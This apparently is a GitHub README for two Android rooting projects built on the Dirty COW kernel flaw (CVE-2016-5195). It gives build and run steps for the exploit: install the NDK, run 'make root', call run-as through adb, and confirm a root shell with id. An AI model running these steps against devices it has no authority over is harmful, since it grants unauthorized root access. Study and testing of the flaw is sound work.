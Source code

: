 This repo contains 2 seperate projects:
1  GetRoot-Android-DirtyCow
And:
2  CVE-2016-5195



1 GetRoot-Android-DirtyCow
 Get temporary root on android by exploiting the dirtycow vulnerability.

Run in android or linux:
  ./G1tR0oT
Should execute and result in a root shell


2 CVE-2016-5195
(dirty cow/dirtycow/dirtyc0w) poc for Android
This repo (cloned from https://github.com/timwr/CVE-2016-5195) demonstrates the vulnerability on vulnerable Android devices attached via ADB.
It does not disable SELinux (see https://github.com/timwr/CVE-2016-5195/issues/9) or install superuser on the device.

Make sure you have android-ndk installed: check if you have "ndk-build" in your path:
  which ndk-build
To install android-ndk:
  cd $HOME
  wget https://dl.google.com/android/repository/android-ndk-r14b-linux-x86_64.zip #For darwin: https://dl.google.com/android/repository/android-ndk-r14b-darwin-x86_64.zip
  unzip android-ndk-r14b-linux-x86_64.zip
  cd $HOME/android-ndk-r14b/
Add android-ndk to path
  export PATH="$PATH:$HOME/android-ndk-r14b/"


To run script:
  cd CVE-2016-5195
  make root
If exploited, you should execute:
  adb shell /system/bin/run-as
And running:
  id
Should output "uid=0":
  uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log)......
